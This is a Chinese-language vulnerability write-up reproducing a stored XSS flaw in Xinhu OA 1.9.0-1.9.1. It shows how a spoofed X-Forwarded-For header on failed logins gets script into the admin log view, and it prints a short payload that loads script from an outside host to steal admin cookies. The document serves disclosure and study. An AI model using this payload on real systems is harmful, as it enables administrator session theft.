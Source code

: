 信呼oa 1.9.0-1.9.1 储存型xss
============================

一、漏洞简介
------------

二、漏洞影响
------------

信呼oa 1.9.0-1.9.1

三、复现过程
------------

首先搭建好之后跳转到一个登录页面

![1.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId24.png)输入刚开始安装时设置的管理员**usname paword**然后点击登陆，然后抓包查看传参，然后去寻找登陆模块的源代码，根据传参的追踪，我们很快就能追踪到这个文件`webmain\model\loginMode.php`

然后我在这个登陆文件`loginMode.php`的第209行到215行发现了一些东西

![2.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId25.png)

这里出现了一个`addlogs`函数，看名字应该是添加日志，在`logModel.php`中发现了他的定义

![3.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId26.png)

这里是获取了信息然后给数组赋值，然后insert函数调用 在`mysql.php`

![4.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId27.png)

很明显这里是插入语句的模板，这里就应该是登陆失败后，日志会记录下来前面看的到那些数组赋值的信息。

通过查看Mysql日志发现，登录失败他会记录我们的Ip，那么就简单了，我们是否可以尝试使用`X-Forwarded-For`来改变他的ip，然后我们使用

`X-Forwarded-For:127.0.0.1`X-F-F成功更换后台Ip

![5.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId28.png)打个xss

![6.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId29.png)后台成功弹框

![7.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId30.png)

打开XSS平台

![8.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId31.png)打一遍发现没用，获取不到cookie，F12看看咋回事

![9.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId32.png)果然是xss代码出了问题构造xss代码，极限代码\--\>多加//防止被转入之前\--\>`sCRiPt/SrC=////xs.sb/Jwdu>`![10.png](resource/信呼oa1.9.0-1.9.1储存型xss/media/rId33.png)

参考链接
--------

> https://xz.aliyun.com/t/7887
